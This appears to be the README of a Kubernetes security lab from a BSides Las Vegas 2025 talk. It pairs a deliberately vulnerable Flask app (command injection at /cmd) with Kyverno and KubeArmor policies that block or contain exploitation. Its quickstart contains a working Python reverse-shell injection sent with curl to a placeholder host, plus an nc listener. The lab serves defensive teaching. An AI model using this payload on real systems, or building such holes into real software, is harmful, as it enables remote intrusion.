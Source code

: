# Kubernetes Enforcement Lab

This repo contains the full scenario from the **BSides Las Vegas 2025** talk: _"Detect and Respond? Cool Story — or Just Don’t Let the Bad Stuff Start."_

We walk through an end-to-end Kubernetes security journey using a vulnerable Flask app, and explore how tools like **Kyverno**, **KubeArmor**, and **eBPF detection** can prevent or detect runtime threats.

---

## Directory Structure

```bash
k8s-enforcement-lab/
├── RootDockerfile                     # Vulnerable app container with root
├── NonRootDockerfile                  # Vulnerable app container without root
├── app.py                             # Flask app with OS command injection
├── templates/                         # HTML for test payloads
├── manifests/                         # Various Tests and Policies
│   ├── insecure.yaml                  # Insecure workload spec (runs as root) and NodePort Service
│   ├── secure.yaml                    # Secure workload spec (no root) and NodePort Service
│   ├── kyverno-block-root.yaml        # Kyverno policy to block insecure pods
│   └── kubearmor-mailroom-locks.yaml  # KubeArmor policy to restrict runtime behavior
├── README.md
```

---

## App
The app is a basic Python Flask server with an OS command injection vulnerability at `/cmd`. It simulates a realistic reverse shell scenario. The containers used in the manifests are hosted on Docker Hub, so you don't need to build your own images unless desired. All of this has been tested in a Kubeadm cluster with no problems.

## Scenarios
Each directory in \`manifests/\` shows a different security stage:
- **insecure.yaml**: Baseline Workload — no security controls
- **secure.yaml**: Secure Workload - disallow root containers
- **kyverno-block-root.yaml**: Admission control with Kyverno
- **kubearmor-mailroom-locks.yaml**: Runtime enforcement with KubeArmor

---

## Talk Slides
- [BSides Las Vegas 2025 PDF](./BSidesLV2025_Talk.pdf)

---

## Related Blog Posts @ [cloudsecburrito.com](https://cloudsecburrito.com)

- [📘 Setting Up Your Lab Cluster](https://cloudsecburrito.com/lab-cluster-setup)
- [🔧 Blocking Root Containers with Kyverno](https://cloudsecburrito.com/kyverno-part-2)
- [🔐 Locking Down Runtime Behavior with KubeArmor](https://cloudsecburrito.com/kubearmor-series)

---

## Quickstart (the slides show all the scenarios but this might be helpful)

### Deploy Vulnerable Workload and Service
```bash
kubectl apply -f manifests/insecure.yaml
```

### Run the hack
Listener in one terminal assuming Mac:
```bash
nc -l 4444
```

RCE in other terminal:
```bash
curl "http://\"app_ip_address\":30080/cmd" \
  --get \
  --data-urlencode 'input=python3 -c "import socket,os,pty;s=socket.socket();s.connect((\"host_ip_address\",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"sh\")"'
```

### For full root block:
```bash
kubectl apply -f manifests/kyverno-block-root.yaml
```

### Deploy Non Root workload:
```bash
kubectl apply -f manifests/secure.yaml
```

### Create runtime enforcement policy:
```bash
kubectl apply -f manifests/kubearmor-mailroom-locks.yaml
```

### Re-deploy the secure workload to test runtime policy in action
```bash
kubectl apply -f manifests/secure.yaml
```

### Reuse RCE and try to start Python listener or write to tmp

---

## Credit
Created by [Matt Brown](https://cloudsecburrito.com) — for BSidesLV 2025
